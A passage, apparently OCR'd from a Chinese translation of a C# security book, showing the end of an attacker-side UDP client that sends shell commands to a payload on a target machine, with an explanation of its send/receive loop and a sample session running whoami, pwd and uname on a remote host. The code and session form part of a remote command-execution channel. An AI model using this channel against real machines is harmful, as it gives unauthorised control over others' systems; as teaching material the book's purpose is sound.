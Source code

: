 > listener.Close();
> 
> return;
> 
> }
> 
> if (string.IsNullOrWhiteSpace(command))
> 
> continue;
> 
> bytes = listener.➌Receive(ref localEP);
> 
> output = Encoding.ASCII.GetString(bytes, 0, bytes.Length);
> 
> Console.WriteLine(output);
> 
> }
> 
> catch (Exception ex)
> 
> {
> 
> Console.WriteLine("Exception{0}", ex.Message);
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }

清单 4-15: 发送和接收数据到目标 UDP 监听器的主逻辑

在打印了一些友好的帮助文本，说明如何使用此脚本后，我们开始在一个 while 循环中向目标发送命令。首先，Console.ReadLine() ➊ 从标准输入中读取一行数据，这将成为发送到目标机器的命令。然后，Encoding.ASCII.GetBytes() 将该字符串转换为字节数组，以便我们可以通过网络发送它。

接下来，在一个 try/catch 块中，我们尝试使用 SendTo() ➋ 发送字节数组，传入字节数组和要发送数据的 IP 端点。在发送命令字符串后，如果从标准输入读取的字符串为空，我们将跳出 while 循环，因为我们在目标代码中构建了相同的逻辑。如果字符串不是空的，但只是空白，我们会返回到 while 循环的开头。然后，我们在 UDP 监听器上调用 Receive() ➌，以阻塞执行，直到从目标接收到命令输出，这时使用 Encoding.ASCII.GetString() 将接收到的字节转换为字符串，并写入攻击者的控制台。如果发生错误，我们将在屏幕上打印异常消息。

如清单 4-16 所示，在远程机器上启动有效载荷，传递 4444 作为唯一参数给有效载荷，并在攻击者的机器上启动接收器后，我们应该能够执行命令并从目标接收输出。

> $ /tmp/attacker.exe 192.168.1.31 4444
> 
> 输入命令以发送，或者输入空行退出
> 
> whoami
> 
> bperry
> 
> pwd
> 
> /tmp
> 
> uname
> 
> Linux 清单 4-16: 通过 UDP 与目标机器通信以执行任意命令
